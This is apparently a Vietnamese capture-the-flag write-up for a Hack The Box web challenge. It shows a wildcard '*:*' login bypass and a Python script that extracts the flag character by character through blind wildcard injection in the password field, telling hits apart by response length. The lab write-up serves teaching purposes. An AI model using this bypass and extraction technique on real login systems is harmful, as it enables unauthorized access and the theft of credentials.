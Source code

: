 # Phân tích

Tham số `message` có thể inject:

![image](https://user-images.githubusercontent.com/114990730/209164490-605200da-8b9b-4183-8759-12c6fba153fd.png)

Chứa lỗ hổng XSS nhưng không khai thác được trong trường hợp này:

![image](https://user-images.githubusercontent.com/114990730/209164714-fcb0c60e-69ce-4801-a012-683e67937a7d.png)

Hơi guessing chút login page bypass bằng `*:*`

![image](https://user-images.githubusercontent.com/114990730/209172304-ab7fe049-4982-4558-bd6a-28c3952e6180.png)

Sau đó chỉ có duy nhất chức năng Search:

![image](https://user-images.githubusercontent.com/114990730/209172402-e4959737-8834-43c6-ba6a-431511743937.png)

Chức năng trả về các đoạn text chứa từ khóa tìm kiếm:

![image](https://user-images.githubusercontent.com/114990730/209172600-2b807a55-4f91-448a-b930-d805e437113e.png)

Có thể sử dụng wildcard characters:

![image](https://user-images.githubusercontent.com/114990730/209175968-8f74287f-bb62-4b7e-af73-f2ab09ed851f.png)

Cũng khá guessing, từ đây nghĩ đến flag có thể là username hoặc password trong form login:

![image](https://user-images.githubusercontent.com/114990730/209176206-bdc70819-14bb-4cab-9156-a7a119676c96.png)

Khi mật khẩu đúng thì độ dài response là 2586, ngược lại là 2214, phân biệt dựa vào yếu tố này. Viết script brute force password:

```
import requests
import string

string = string.printable
string = string[:-4]
string = string.replace('*', '')

url = 'http://159.65.19.4:30908/login'

flag = 'HTB{'

while (True):
    for char in string:
        password = flag + char + '*'
        data = {'username': '*', 'password': password}
        response = requests.post(url = url, data = data)
        if len(response.text) == 2586:
            flag = flag + char
            print(flag)
            break

# print(len(response.text)) # 2586
```

![image](https://user-images.githubusercontent.com/114990730/209180639-01979527-4df2-4f18-962a-4d857f66883c.png)
